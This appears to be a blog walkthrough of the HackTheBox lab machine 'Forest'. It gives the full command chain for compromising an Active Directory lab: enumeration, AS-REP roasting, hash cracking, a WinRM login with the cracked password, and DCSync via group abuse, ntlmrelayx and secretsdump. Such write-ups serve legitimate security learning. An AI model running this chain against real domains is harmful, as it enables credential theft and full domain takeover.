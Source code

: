 ```yaml
---
layout: post
title:  htb-forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/ferest/forest1.png)  
forest is a easy machine made by [egre55](https://www.hackthebox.eu/home/users/profile/1190) & [mrb3n](https://www.hackthebox.eu/home/users/profile/2984)  

# ENUM  
### nmap   
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

Nmap gives me the domain htb.local  
Now I need usernames to try use [impacket](https://github.com/ifconfig-me/impacket)  

### enum4linux  
>[enum4linux](https://github.com/CiscoCXSecurity/enum4linux) 10.10.10.16  
enum4linux shows a list of users  
![user](/assets/img/forest/forest1.png)  

# exploit  

Now I can use impacket's GetNPUser.py  
### impacket  
>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass  
Impacket found the hash of svc-alfresco user  
John will help me to crack it  
>john -w=/usr/share/wordlists/rockyou.txt hash.as  
![pass](/assets/img/forest/forest3.png)  

[evil-winrm](https://github.com/Hackplayers/evil-winrm) to acess the machine  
>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco  
![shell](/assets/img/forest/forest4.png)    
# PRIV ESC  
### bloodhound  
The hound  
>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all  
![bloodHound](/assets/img/forest/forest5.png)  
Just zip all the .json file and send to bloodhound  
svc-alfresco is member of[Account Operators](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11))  
![group](/assets/img/forest/forest6.png)  

![exchange1](/assets/img/forest/forest7.png) 
And exchange windows permissons group has WriteDacl 
![exchange2](/assets/img/forest8.png)  
![writDacl](/assets/img/forest9.png)  

If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack  
### impacket  
>net group "Exchange Windows Permissions" svc-alfresco /add  
![netGroup](/assets/img/forest/forest10.png)  
to add svc-alfresco in the group  
and impacket's ntlmrelayx.py  
>ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco  
Logged as svc-alfresco in localhost  
![localhost](/assets/img/forest/forest11.png)  
and.. 
![ntlmrelayx](/assets/img/forest/forest12.png)  
Ready for secretsdump  
![secretsDump](/assets/img/forest/forest13.png)  
Evil again as admin  
![evilAdmin](/assets/img/forest/forest14.png)  
